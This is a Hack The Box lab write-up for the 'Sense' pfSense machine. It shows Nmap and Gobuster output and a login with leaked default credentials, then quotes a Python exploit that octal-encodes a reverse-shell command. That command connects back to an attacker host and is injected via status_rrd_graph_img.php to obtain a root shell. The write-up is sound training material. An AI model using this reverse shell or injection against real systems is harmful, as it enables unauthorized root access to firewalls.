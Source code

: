 ```yaml
---
layout: PostSimple
date: 2020-07-10
title:     "Hack The Box - Sense"
tags: ['freebsd','easy','pfsense']
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled.png)

We are going to pwn Sense from Hack The Box.                                                             

Link: [https://www.hackthebox.eu/home/machines/profile/111](https://www.hackthebox.eu/home/machines/profile/111)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), OpenBSD 4.X (86%), FreeBSD 8.X (85%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/o:freebsd:freebsd:8.1
Aggressive OS guesses: Comau C4G robot control unit (92%), OpenBSD 4.0 (86%), FreeBSD 8.1 (85%), OpenBSD 4.3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTPS Enumeration

When I tried to visit Port 80 first it redirects to `https`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%201.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%201.png)

Looks like its a `pfSense` login page.

> What is pfsense? **pfSense is an open source firewall/router computer software distribution based on FreeBSD. It is installed on a physical computer or a virtual machine to make a dedicated firewall/router for a network.**

I searched for default credentials and got this.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%202.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%202.png)

When I tried to login, it says Username or Password incorrect. I decided to run Gobuster

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/07/10 10:36:09 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
```

Ok we got an username finally and it says password is default one, which is `pfsense`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%203.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%203.png)

I tried login with `rohit : pfsense` the default password. And it worked.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%204.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%204.png)

Since we got the version of it, I decided to search for exploits and found this.

> [https://www.exploit-db.com/exploits/43560](https://www.exploit-db.com/exploits/43560)

## Getting Shell

According to exploit its looking for `/status_rrd_graph_img.php` to command injection. And helps us to get python reverse shell.

```python
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
```

so I decided to check whether its there or not? And Yes its there. Downloaded the exploit to my machine.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%205.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%205.png)

First I used `--help` parameter to know what going on and set those parameters and I got the shell.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%206.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%206.png)

We don’t have to escalate privileges since pfSense is running as root and the command injection vulnerability leads to root shell.

We own the box.